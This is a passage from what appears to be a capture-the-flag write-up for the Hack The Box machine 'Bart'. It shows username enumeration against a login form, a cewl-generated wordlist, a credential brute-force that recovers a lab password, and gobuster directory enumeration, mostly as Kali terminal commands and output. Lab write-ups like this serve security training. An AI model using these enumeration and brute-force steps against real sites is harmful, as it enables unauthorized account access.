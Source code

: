 Next, we will write a script to check for valid usernames using the list from [here](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/familynames-usa-top1000.txt).

```
┌──(kali㉿kali)-[~/Desktop/bart]
└─$ python3 enumerate_usernames.py
[+] Obtained CSRF value: 958f847a477fb001d1e0ede082fc6ff65aec2a6bca75506d6821e2fae68b72b6
Username found ===> HARVEY
Username found ===> DANIEL
```

Next, let us generate a short list of password from http://forum.bart.htb using cewl

```
┌──(kali㉿kali)-[~/Desktop/bart]
└─$ cewl -w password.txt -e -a http://forum.bart.htb
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

Lastly, we will use a script to enumerate the credentials for both harvey and daniel. Form the output, we are able to find the credentials for HARVEY but not DANIEL.

```
┌──(kali㉿kali)-[~/Desktop/bart]
└─$ python3 enumerate_creds.py
Obtained CSRF value: cf6117793e3557a2a95f13422dd26c4e6d38211e995e0422e6f4e1f6826d7abf
[+] Enumerating passwords for HARVEY
Credentials found =====> HARVEY:potter
Obtained CSRF value: 9c72432c3b77c10ba745eca94ff4e867e0aea4b00fca15a213e5f4882d445b6c
[+] Enumerating passwords for DANIEL
```

Navigating to http://monitor.bart.htb/?&mod=server, we are able to find another domain which is http://internal-01.bart.htb/. We will then add http://internal-01.bart.htb/ to our /etc/hosts file. 

```
10.10.10.81 internal-01.bart.htb forum.bart.htb monitor.bart.htb bart.htb
```

### Web Enumeration of http://internal-01.bart.htb
Next, let us run a gobuster enumeration on http://internal-01.bart.htb

```
http://internal-01.bart.htb/index.php            (Status: 302) [Size: 4] [--> simple_chat/login_form.php]
http://internal-01.bart.htb/log                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/log/]
http://internal-01.bart.htb/Index.php            (Status: 302) [Size: 4] [--> simple_chat/login_form.php]
http://internal-01.bart.htb/sql                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/sql/]
http://internal-01.bart.htb/INDEX.php            (Status: 302) [Size: 4] [--> simple_chat/login_form.php]
http://internal-01.bart.htb/SQL                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/SQL/]
http://internal-01.bart.htb/Log                  (Status: 301) [Size: 155] [--> http://internal-01.bart.htb/Log/]
```
